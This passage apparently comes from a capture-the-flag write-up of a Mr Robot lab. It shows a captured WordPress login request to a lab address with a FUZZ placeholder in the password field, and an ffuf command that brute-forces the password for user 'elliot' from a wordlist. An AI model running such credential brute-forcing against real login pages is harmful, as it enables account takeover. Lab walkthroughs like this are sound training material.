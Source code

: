 so we have a valid username now, we can also try bruteforcing the password for this username.

using **ffuf** again but now change the **FUZZ** word to be in the password field this time and the username field is elliot like this.

```
POST /wp-login.php HTTP/1.1
Host: 10.10.208.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.10.208.13
Connection: close
Referer: http://10.10.208.13/wp-login.php
Cookie: wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.208.13%2Fwp-admin%2F&testcookie=1
```

now filter this size

```
ffuf -request request.txt -w cleaned.dic -fs 3591
```

![img-description](/assets/img/MrRobot/Bruteforcingpasswords.png)
_Bruteforcing Password_
